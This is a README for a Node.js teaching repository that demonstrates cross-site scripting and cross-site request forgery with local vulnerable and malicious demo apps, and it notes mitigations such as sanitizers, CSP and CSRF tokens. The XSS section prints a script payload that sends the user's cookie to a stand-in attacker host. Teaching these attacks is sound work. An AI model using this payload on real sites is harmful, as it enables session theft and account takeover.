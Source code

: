 # Node Examples

Start by installing all the npm dependencies:

```bash
npm install
```

## Cross-site Scripting (XSS)

Start the vulnerable website ([http://localhost:3000/](http://localhost:3000/)):

```bash
node xss/vulnerable-app.js
```

Start the malicious website ([http://localhost:3001/](http://localhost:3001/)):

```bash
node xss/malicious-app.js
```

The attacker connects to the vulnerable website and edit the content of the HTML.
For instance, the following XSS injection sends the cookie of the user that visit the vulnerable website to a malicious website:

```html
<script>
    fetch("http://localhost:3001/steal?cookie=" + document.cookie)
        .then(response => response.text())
        .then(text => alert("Your secret has been stolen: " + text));
</script>
```

This kind of attack can be mitigated by using an HTML sanitizer and by configuring a content security policy (CSP) in the headers of the HTTP response.
Popular [HTML sanitizers](https://www.npmjs.com/search?q=html+sanitizer) can be found on the npm registry.

## Cross-site Request Forgery (CSRF)

Start the vulnerable website ([http://localhost:3000/](http://localhost:3000/)):

```bash
node csrf/vulnerable-app.js
```

Start the malicious website ([http://localhost:3001/](http://localhost:3001/)):

```bash
node csrf/malicious-app.js
```

The attacker sends an email or a message to the user that contains a link to the malicious website.
If the user is connected to the vulnerable website, the request forged by the malicious website is executed by the browser on the vulnerable website with the cookie of the user.

This kind of attack can be mitigated by using hidden CSRF tokens in HTML forms.
A plugin such as [csurf](https://github.com/expressjs/csurf) can be used to generate CSRF tokens in express applications.